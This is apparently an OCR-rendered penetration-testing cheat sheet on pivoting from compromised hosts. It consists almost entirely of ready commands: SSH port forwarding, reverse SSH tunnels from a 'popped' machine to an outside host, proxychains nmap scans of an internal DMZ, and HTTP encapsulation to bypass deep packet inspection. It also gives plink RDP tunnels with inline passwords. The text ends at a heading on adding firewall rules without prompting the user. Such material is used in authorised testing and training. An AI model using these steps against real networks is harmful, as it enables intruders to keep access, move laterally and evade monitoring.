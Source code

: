 -   SSH Local Port Forwarding: supports bi-directional communication
    channels

    -   `ssh <gateway> -L <local port to listen>:<remote host>:<remote port>`

-   SSH Remote Port Forwarding: Suitable for popping a remote shell on
    an internal non routable network

    -   `ssh <gateway> -R <remote port to bind>:<local host>:<local port>` 

-   SSH Dynamic Port Forwarding: create a SOCKS4 proxy on our local
    attacking box to tunnel ALL incoming traffic to ANY host in the DMZ
    network on ANY PORT

    -   `ssh -D <local proxy port> -p <remote port> <target>`

-   Proxychains - Perform nmap scan within a DMZ from an external
    computer

    -   Create reverse SSH tunnel from Popped machine on :2222  
        
        `ssh -f -N -T -R22222:localhost:22 yourpublichost.example.com`
        `ssh -f -N -R 2222:<local host>:22 root@<remote host>`

    -   Create a Dynamic application-level port forward on 8080 thru
        2222  
        
        `ssh -f -N -D <local host>:8080 -p 2222 hax0r@<remote host>`

    -   Leverage the SSH SOCKS server to perform Nmap scan on network
        using proxy chains  
        
        `proxychains nmap --top-ports=20 -sT -Pn $ip/24`

-   HTTP Tunneling  
      
      `nc -vvn $ip 8888`

-   Traffic Encapsulation - Bypassing deep packet inspection

    -   http tunnel  
        On server side:  
        `sudo hts -F <server ip addr>:<port of your app> 80  `
        On client side:  
        `sudo htc -P <my proxy.com:proxy port> -F <port of your app> <server ip addr>:80 stunnel`

-   Tunnel Remote Desktop (RDP) from a Popped Windows machine to your
    network

    -   Tunnel on port 22  
    
        `plink -l root -pw pass -R 3389:<localhost>:3389 <remote host>`

    -   Port 22 blocked? Try port 80? or 443?  
    
        `plink -l root -pw 23847sd98sdf987sf98732 -R 3389:<local host>:3389 <remote host> -P80`

-   Tunnel Remote Desktop (RDP) from a Popped Windows using HTTP Tunnel
    (bypass deep packet inspection)

    -   Windows machine add required firewall rules without prompting the user
